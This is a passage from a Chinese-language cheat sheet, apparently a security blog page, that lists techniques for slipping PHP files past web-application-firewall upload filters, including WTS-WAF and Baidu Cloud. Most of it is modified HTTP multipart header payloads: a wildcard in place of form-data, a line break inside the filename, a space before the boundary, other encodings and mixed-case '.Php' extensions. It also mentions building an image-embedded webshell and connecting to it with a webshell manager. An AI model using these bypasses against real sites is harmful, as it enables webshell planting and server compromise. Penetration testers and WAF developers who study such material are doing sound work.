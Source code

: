 6.HTTP header 属性值绕过

```bash
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php"

```

7.HTTP header 属性名称绕过

```bash
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".

```

8.等效替换绕过

```bash
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。

```

9.修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等

```

#### WTS-WAF 绕过上传

```bash
原内容：
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php"

```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"

```
